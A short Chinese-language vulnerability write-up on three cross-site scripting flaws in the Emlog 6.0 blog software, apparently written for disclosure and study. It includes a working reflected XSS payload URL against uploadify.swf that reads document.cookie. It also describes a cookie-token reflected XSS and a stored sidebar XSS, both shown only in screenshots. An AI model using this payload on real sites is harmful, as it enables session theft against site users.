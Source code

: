 # Emlog 6.0 xss集合

### 一、漏洞简介

### 二、漏洞影响

Emlog 6.0

### 三、复现过程

Uploadify SWF XSS

Emlog使用了 uploadify.swf 的方式上传文件，文件路径 /include/lib/js/uploadify/uploadify.swf

payload


```
http://url/include/lib/js/uploadify/uploadify.swf?uploadifyID=00%22%29%29;}catch%28e%29{alert%281%29;}//%28%22&movieName=%22])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//&.swf
```

效果，可无视浏览器filter：

![](images/15890076932448.png)


**反射xss**

此处的XSS主要发生在cookie上，因为某些页面如 `admin/admin_log,admin/sort.php,admin/link.php`页面需要在表单中添加了hidden属性的token值，而这个token值直接从用户的cookie中取得，导致了一个反射型XSS

拦截抓包修改cookie中的token值如下：

![](images/15890077091444.png)


效果：

![](images/15890077174101.png)


**侧边栏存储性XSS**

为了同样是为了支持HTML代码的输出，没有转义对应的脚本代码标签，导致了存储性的XSS存在

![](images/15890077288410.png)
